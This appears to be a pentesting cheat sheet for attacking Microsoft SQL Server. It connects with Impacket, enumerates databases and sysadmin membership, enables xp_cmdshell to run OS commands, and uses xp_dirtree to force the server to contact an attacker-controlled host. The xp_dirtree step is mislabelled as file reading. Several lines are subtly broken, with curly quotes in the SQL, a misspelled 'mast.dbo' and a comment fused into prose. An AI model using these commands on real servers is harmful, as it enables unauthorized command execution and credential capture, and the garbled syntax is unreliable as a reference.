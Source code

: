 
## Good places
[hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
[pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

## Warning
Be careful, you can **block accounts** if you fail login several times using an existing username.

## Impacket smb related scripts
If you have credentials:
```bash
# connect to a Microsoft SQL server
mssqlclient.py -port $PORT $domain/$sql_svc 
```

```sql
SELECT @@version					 	-- version check
SELECT DB_NAME()						-- current database
SELECT name FROM master..sysdatabases;	-- list databases
-- Has two comment types
SELECT 1 — comment  
SELECT /*comment*/ 

SELECT is_srvrolemember('sysadmin'); 	-- role check

```

## Command Execution
Check if cmdshell is already active
```sql   
EXEC xp_cmdshell ‘net user’; -- privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:
EXEC sp_configure ‘show advanced options’, 1; -- priv  
RECONFIGURE; -- priv  
EXEC sp_configure ‘xp_cmdshell’, 1; -- priv  
RECONFIGURE; -- priv
-- OR
EXEC mast.dbo.xp_cmdshell 'cmd';
```

Arbituary File Reading with xp_dirtree
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test'; EXEC xp_dirtree @q;--+ 
```
Or
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test';exec master.dbo.xp_dirtree @q;--+
```

## References
[pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)